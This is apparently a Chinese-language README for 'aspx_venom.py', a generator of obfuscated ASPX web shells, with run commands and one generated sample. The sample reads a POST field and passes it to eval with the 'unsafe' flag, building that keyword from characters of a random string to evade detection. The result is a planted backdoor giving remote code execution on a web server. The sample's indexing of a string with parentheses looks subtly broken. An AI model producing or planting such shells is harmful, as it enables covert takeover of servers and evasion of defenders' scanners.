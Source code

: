 ##使用方法

`python3 aspx_venom.py`

保存:

`python3 aspx_venom.py >  test.aspx`

生成样例:
```
<%@ Page Language="Jscript" Debug=true%>
<%
var UdIw='hVYFCrBEjfzQsUkdgOReSAKXntawHGiWPvTpqJxmLZbylcuMNDIo';
var YJxe=Request.Form("yzddmr6");
var zIUt=UdIw(13)+UdIw(24)+UdIw(12)+UdIw(21)+UdIw(3)+UdIw(7);
eval(YJxe,zIUt);
%>
```
